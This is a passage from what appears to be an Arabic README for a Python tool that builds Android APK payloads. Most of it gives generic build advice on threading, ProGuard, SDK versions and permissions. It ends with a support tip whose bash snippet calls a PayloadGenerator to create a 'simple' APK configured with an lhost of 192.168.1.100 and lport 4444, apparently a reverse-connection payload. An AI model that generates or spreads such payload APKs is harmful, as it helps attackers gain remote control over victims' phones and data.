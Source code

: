 ### 2. الأداء
- استخدم threading للعمليات الطويلة
- احذف الموارد غير المستخدمة
- استخدم ProGuard لتقليل حجم APK

### 3. التوافق
- اختبر على إصدارات مختلفة من Android
- استخدم minSdk و targetSdk مناسبة
- تحقق من الأذونات المطلوبة

## 🆘 الدعم

إذا واجهت مشاكل:

1. راجع ملفات السجل في `logs/`
2. تحقق من متغيرات البيئة
3. تأكد من تثبيت جميع المتطلبات
4. جرب إنشاء APK مبسط كبديل

```bash
# إنشاء APK مبسط
python -c "
from core.payload_generator import PayloadGenerator
generator = PayloadGenerator()
result = generator.create_simple_apk('test_payload', {'lhost': '192.168.1.100', 'lport': 4444})
print(f'Simple APK created: {result}')
"
```

